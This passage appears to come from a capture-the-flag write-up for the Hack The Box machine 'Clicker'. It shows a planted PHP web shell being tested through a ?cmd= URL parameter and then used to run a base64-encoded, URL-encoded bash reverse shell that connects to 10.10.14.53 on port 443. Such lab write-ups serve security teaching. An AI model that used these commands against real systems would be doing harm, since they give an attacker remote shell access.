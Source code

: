 We could test that our commands were working by browsing to the following URL
```
http://clicker.htb/exports/top_players_gt0ln37v.php?cmd=id
```

![Code execution](/assets/img/Clicker/Clicker_06.png)

Now that we have code execution lets upgrade this further to a full on reverse shell. I usually prefer b64 encoding my shells because this causes less syntax issues. we use the following shell command.

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.53/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQzIDA8JjEgMj4mMQ==
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```

Because we will be using this payload in a URL its best to URL encode all the spaces as well leaving us with the following resulting payload

```
echo%20L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQzIDA8JjEgMj4mMQ==|%20base64%20--decode%20|%20bash

```

This resulted us with the following url 
```
http://clicker.htb/exports/top_players_0q3k1hvj.php?cmd=echo%20L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQzIDA8JjEgMj4mMQ==|%20base64%20--decode|%20bash
```
